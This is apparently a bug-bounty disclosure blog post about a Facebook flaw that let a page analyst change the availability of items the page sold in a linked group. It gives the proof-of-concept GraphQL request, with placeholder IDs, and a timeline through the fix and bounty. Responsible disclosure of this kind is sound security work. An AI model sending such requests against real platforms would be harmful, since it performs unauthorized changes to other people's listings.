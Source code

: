 ```yaml
---
layout: post
title: Facebook Change product availability as a PageAnalyst
categories: articles
---
```


<p align="right" class="date">{{ page.date | date_to_string }} - onehackzero</p>

## Description

&nbsp;&nbsp;&nbsp;This bug could have let a malicious page analyst modify the availability of an item put up for sale by the page in a group linked to the page.

## Proof of Concept

{% highlight javascript %}
HTTP POST

graph.facebook.com/graphql/

query_id=QUERYID
query_params = {"3":"false","1":"image/jpeg","2":2,"0":{"surface":"GROUP_POST_CHEVRON","actor_id":"PageID","client_mutation_id":"","product_availability":"IN_STOCK","story_id":"<base64 encoded>"}}

{% endhighlight %}

## Timeline

- Jan 4, 2018 - Report Sent
- Jan 10, 2018 - Further investigation by Facebook
- Jan 23, 2019 - Fixed by Facebook
- Jan 25, 2019 - Bounty Awarded by Facebook

<iframe width="560" height="315" src="https://www.youtube.com/embed/JwZw6QJ_d18" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>